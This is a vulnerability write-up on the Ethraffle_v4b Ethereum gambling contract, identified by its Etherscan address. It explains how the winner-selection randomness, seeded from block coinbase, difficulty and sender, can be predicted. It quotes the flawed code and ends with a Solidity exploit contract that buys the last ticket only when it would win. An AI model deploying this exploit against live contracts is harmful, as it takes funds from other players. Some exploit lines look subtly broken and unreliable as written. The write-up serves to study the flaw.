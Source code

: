 Ethraffle_v4b
======
https://etherscan.io/address/0xcC88937F325d1C6B97da0AFDbb4cA542EFA70870#code

Vulnerability type
------
Bad randomness

Abstract
------
A gambling smart contract implementation for Ethraffle_v4b, an Ethereum gambling game, sells tickets and after the last ticket in a round was sold randomly generates a winner from all the buyers who will claim the price, generates a random value that is predictable by attacker. The developer wrote a `chooseWinner()` function that uses block coinbase and difficulty as the seed. This can be predicted by writing the same random function code in an exploit contract to determine the `winningNumber` value, thus the attacker can always win.

Related code
------

    function buyTickets() payable public {
        ......
        // Choose winner if we sold all the tickets
        if (nextTicket == totalTickets) {
            chooseWinner();
        }
        ......
    }
    
    function chooseWinner() private {
        address seed1 = contestants[uint(block.coinbase) % totalTickets].addr;
        address seed2 = contestants[uint(msg.sender) % totalTickets].addr;
        uint seed3 = block.difficulty;
        bytes32 randHash = keccak256(seed1, seed2, seed3);

        uint winningNumber = uint(randHash) % totalTickets;
        address winningAddress = contestants[winningNumber].addr;
        
        ......
        
        winningAddress.transfer(prize);
    }

Details
------
After all tickets in a round(50 ticket for a round) was sold, `chooseWinner()` randomly generates a winner from all the buyers who will claim the price. However, `block.coinbase`, `block.difficulty` and the mapping `contestants` are all readable from etherchain, so the result can be determined in an attack contract.

Exploit
------
    contract Exploit{
    
        Ethraffle_v4b target;
        
        struct Contestant {
            address addr;
            uint raffleId;
        }
        //The data of this mapping can be accessed from the chain.
        mapping (uint => Contestant) contestants;
        
        uint constant totalTickets = 50;
        
        function Exploit(address _target) public payable{
            target = Ethraffle_v4b(_target);
        }
    
        function attack(uint256 _amount) public payable{
        
            uint current_sold = target.nextTicket();
            if(current_sold + 1 == totalTickets){
                address seed1 = contestants[uint(block.coinbase) % totalTickets].addr;
                address seed2 = contestants[uint(this.address) % totalTickets].addr;
                uint seed3 = block.difficulty;
                bytes32 randHash = keccak256(seed1, seed2, seed3);
                uint winningNumber = uint(randHash) % totalTickets;
                
                if(winningNumber + 1 == totalTickets){
                    target.buyTickets.value(_amount)();
                    msg.sender.transfer(this.balance);
                }

            }
            
        }
    }
    
    contract Ethraffle_v4b
    {
        function buyTickets() payable public;
        uint public nextTicket;
    }
